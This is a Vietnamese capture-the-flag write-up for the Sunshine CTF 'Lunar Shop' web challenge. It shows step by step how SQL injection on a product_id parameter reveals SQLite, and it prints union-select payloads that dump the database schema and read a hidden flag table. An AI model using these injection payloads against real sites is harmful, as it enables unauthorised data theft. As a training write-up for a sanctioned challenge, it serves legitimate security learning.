




# 2025 Sunshine CTF - Lunar Shop

Mô tả của challege:
```
We have amazing new products for our gaming service! Unfortunately we don't sell our unreleased flag product yet !

Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!
```

Nhấp vào một trong các sản phẩm tại `/products` sẽ đưa bạn đến một url như `https://meteor.sunshinectf.games/product?product_id=1`

Nhìn đoạn URL tôi thử test SQLi: `?product=1'` trang web trả về lỗi `[ Error occured. --> unrecognized token: "';" ]`. Dòng `unrecognized token` cho tôi biết trang web sử dụng `SQLite`. 

Tôi tiếp tục test: 
```
?product_id=1 or 1=1--
```



```
?product_id=0 union select 1,2,3,4--
```

Trang web trả về một kết quả duy nhất với 1, 2, 3 và 4 ở những vị trí mong đợi. Tiến hành dump `schema` của toàn bộ bảng trong `SQLite`
```
?product_id=0 union select sql,2,3,4 from sqlite_master where type='table'--
```


Thấy được table `flag` có hai cột là `id` và `flag`, tiến hành đọc cột flag:
```
?product_id=0 union select flag,2,3,4 from flag--
```


Thành công lấy được `flag`.